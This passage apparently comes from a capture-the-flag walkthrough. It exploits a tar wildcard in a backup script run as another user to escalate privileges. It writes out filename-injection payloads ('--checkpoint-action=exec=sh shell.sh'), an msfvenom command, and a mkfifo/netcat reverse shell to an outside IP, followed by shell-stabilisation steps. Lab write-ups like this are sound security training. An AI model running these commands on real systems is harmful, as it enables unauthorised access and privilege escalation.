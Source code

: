 We can check the file:

```
jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

- **Vulnerability**: TheÂ `*`Â wildcard inÂ `tar cf /opt/backups/backup.tar *`Â is dangerous. If we control the files in the directory where the script runs, we can inject malicious filenames to execute code.

Let's do the following:

```
# Let's begin by generating a netcat reverse shell using msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=IP lport=PORT R

# We can then proceed to exploit the wildcard

mkdir /tmp/exploit
cd /tmp/exploit
touch -- '--checkpoint=1'
touch -- "--checkpoint-action=exec=sh shell.sh"
echo '#!/bin/bash' > shell.sh
echo "mkfifo /tmp/gaipsa; nc 10.6.34.159 9001 0</tmp/gaipsa | /bin/sh >/tmp/gaipsa 2>&1; rm /tmp/gaipsa" >> shell.sh # Replace this with the contents that the msfvenom gave you.

# Set up the listener
nc -lvnp PORT

# Give permissions to both backup.tar and shell.sh
chmod 777 /opt/backups/backup.tar shell.sh

# Use the command
sudo -u michael /opt/backups/backup.sh
```

If we reproduce these steps, we can notice this in our listener:

![Pasted image 20250331170833.png](../../IMAGES/Pasted%20image%2020250331170833.png)

We can stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
